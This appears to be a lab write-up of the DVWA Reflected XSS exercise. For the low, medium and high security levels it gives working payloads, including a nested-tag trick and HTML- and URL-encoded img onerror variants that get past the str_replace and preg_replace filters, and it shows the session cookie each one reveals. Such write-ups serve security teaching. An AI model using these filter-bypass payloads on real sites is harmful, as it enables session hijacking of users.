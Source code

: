 # XSS (Refected)

Objective

One way or another, steal the cookie of a logged in user.

## low

basic XSS attack to steal cookie

```html
<script>document.write(document.cookie)</script>
```

> PHPSESSID=j4qh43u6j16jm4k8kp1ksjq5n3; security=low

## medium

We need to bypass `str_replace()` filter.

```html
<scr<script>ipt>document.write(document.cookie)</script>
```

> PHPSESSID=j4qh43u6j16jm4k8kp1ksjq5n3; security=medium

## high

Usage of `<script>` is limited by `preg_replace()`, but we can html-encode 
character 'p' to bypass.

```html
<img src="" onerror="javascript:document.write(document.cookie)">
<img src="" onerror="javascri&#112;t:document.write(document.cookie)">
%3c%69%6d%67%20%73%72%63%3d%22%22%20%6f%6e%65%72%72%6f%72%3d%22%6a%61%76%61%73%63%72%69%26%23%31%31%32%3b%74%3a%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%29%22%3e
```

> PHPSESSID=j4qh43u6j16jm4k8kp1ksjq5n3; security=high
